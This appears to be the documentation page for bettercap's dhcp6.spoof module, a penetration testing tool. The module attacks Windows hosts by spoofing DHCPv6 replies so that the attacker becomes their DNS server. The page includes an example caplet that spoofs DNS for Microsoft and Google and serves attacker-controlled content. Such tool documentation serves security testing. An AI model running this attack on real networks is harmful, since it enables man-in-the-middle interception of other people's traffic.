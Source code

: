 ```yaml
---
title: "dhcp6.spoof"
date: 2019-02-25T13:02:36+01:00
draft: false
weight: 3
---
```


This module's purpose is attacking Microsoft Windows hosts by replying to DHCPv6 messages and providing the target with a link-local
IPv6 address and setting the attacker host as default DNS server (as described [here](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)).

{{% notice info %}}
This module must be used together with [dns.spoof](https://github.com/bettercap/bettercap/wiki/dns.spoof) module in order to be effective.
{{% /notice %}}

### Commands

#### `dhcp6.spoof on`

Start the DHCPv6 spoofer in the background.

#### `dhcp6.spoof off`

Stop the DHCPv6 spoofer in the background.

### Parameters

| Parameter             | Default                                                          | Description                                      |
| --------------------- | ---------------------------------------------------------------- | ------------------------------------------------ |
| `dhcp6.spoof.domains` | `microsoft.com, goole.com, facebook.com, apple.com, twitter.com` | Comma separated values of domain names to spoof. |

### Examples

The following is the [mitm6.cap](https://github.com/bettercap/caplets/blob/master/mitm6.cap) caplet performing the full DHCPv6 attack versus a Windows 10 machine which is booting:

```sh
# let's spoof Microsoft and Google ^_^
set dns.spoof.domains microsoft.com, google.com
set dhcp6.spoof.domains microsoft.com, google.com

# every http request to the spoofed hosts will come to us
# let's give em some contents
set http.server.path /var/www/something

# serve files
http.server on
# redirect DNS request by spoofing DHCPv6 packets
dhcp6.spoof on
# send spoofed DNS replies ^_^
dns.spoof on

# set a custom prompt for ipv6
set $ {by}{fw}{cidr} {fb}> {env.iface.ipv6} {reset} {bold}» {reset}
# clear the events buffer and the screen
events.clear
clear
```
